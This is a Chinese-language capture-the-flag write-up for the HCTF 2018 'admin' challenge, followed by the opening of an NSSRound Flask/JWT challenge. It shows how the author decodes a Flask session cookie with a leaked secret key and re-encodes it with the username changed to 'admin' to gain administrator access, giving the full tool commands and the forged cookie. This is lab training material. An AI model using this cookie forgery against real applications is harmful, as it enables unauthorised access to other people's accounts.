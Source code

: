 

**[HCTF 2018]admin**

---

随便注册一个账号

![image-20241011215558037](https://gitee.com/bx33661/image/raw/master/path/image-20241011215558037.png)

```
<!-- you are not admin -->
```

我们发现session，那现在xueyao

在change代码界面找到源代码的github地址,解码：

```python
PS E:\gitcode\flask-session-cookie-manager-1.2.1.1\flask-session-cookie-manager-1.2.1.1> python flask_session_cookie_manager3.py decode -s "ckj123" -c ".eJw9UMuKwjAU_ZXhrl30pQvBhRIndCC3tKSGm41ora251oF2BjXiv09xwPV5nwdsj309tDA_7s5DPYHt6QDzB3zsYQ7WNbfMoFOOPfnyZkV6tzpNsMNOOYqU3LQoywR9HlpZ3slVAUoVo6ZpJjhQWkWjziuXJ9blsZWFUyKNM0OJFc2N3Oo8aq_o1x59FY_sQMk0UL65ZrqZkj6wMp9tJuieibUnU8akqxDdMrEGGfXYQ3OEolrAcwLV0B-3P99cX94TyHEwRnuM1glFaWx1E5EumMymQ9Gy1V9sXcFW5lflV2cyaUD54mV36nZN_XbKL7iplv_IZdeNADDzbDaDCfwOdf86DsIQnn_9ZWzO.ZwkvZA.WqHSn3iY9Y0siqmVfZ69q2NQso8"
{'_fresh': False, '_id': b'f819cc293c51d22e286cf2660ea4e8745de2b744c7569894136c53248f47ddc0279f8d81b0e7407137773f40b4380989a7d1aa862813ae7a75608ecd53f19647', 'csrf_token': b'b94f437a8cb7e86a4daef48de2df4ddd030eab4a', 'image': b'BsUp', 'name': 'kkk666', 'user_id': '11'}
```

编码：

```python
PS E:\gitcode\flask-session-cookie-manager-1.2.1.1\flask-session-cookie-manager-1.2.1.1> python flask_session_cookie_manager3.py encode -s 'ckj123' -t "{'_fresh': False, '_id': b'f819cc293c51d22e286cf2660ea4e8745de2b744c7569894136c53248f47ddc0279f8d81b0e7407137773f40b4380989a7d1aa862813ae7a75608ecd53f19647', 'csrf_token': b'b94f437a8cb7e86a4daef48de2df4ddd030eab4a', 'image': b'BsUp', 'name': 'admin', 'user_id': '11'}"
.eJw9UMuKwjAU_ZXhrl305UZwocQJHcgtlbThZiO178R2wM6gjfjvUxxwfd7nAafmWk8dbJriMtUrOPUVbB7wcYYNaNPeE4VGGOvIZXfN4lnLOMIBB2EoEDzvkGcRutTXPJvJlB5yEaKkdcKsJ6QIFp0TJo20SUPNj0awOEwURZq1dzL7y6K9oTs4dGW4sD3BY0-49pbIdk2yskJ9dgmjOWEHRyoLSZY-ml2kFVqUSw9pA2TlFp4rKKdrc_r5tvX4nkDGeku0w-AQURCHWrYByaMllQ_IOqvll9XmaDVPb8LtL6Rij9Lty64firZ-O6Uj5uXuHxmLYQGgqIZ-hBX8TvX19Rv4Pjz_AJhNbPQ.ZwkwQQ.j5yClHogHshbwpaniLOkHLBE6us
```

访问index界面

![image-20241011220516456](https://gitee.com/bx33661/image/raw/master/path/image-20241011220516456.png)





**[NSSRound#13 Basic]flask?jwt?**

1. 进入页面发现需要登录，尝试一下登录不进去，我们就注册一个账号，登录进入另一个界面

   ![image-20240821153816950](https://gitee.com/bx33661/image/raw/master/path/image-20240821153816950.png)

   点击拿flag，得到我不是admin的提示
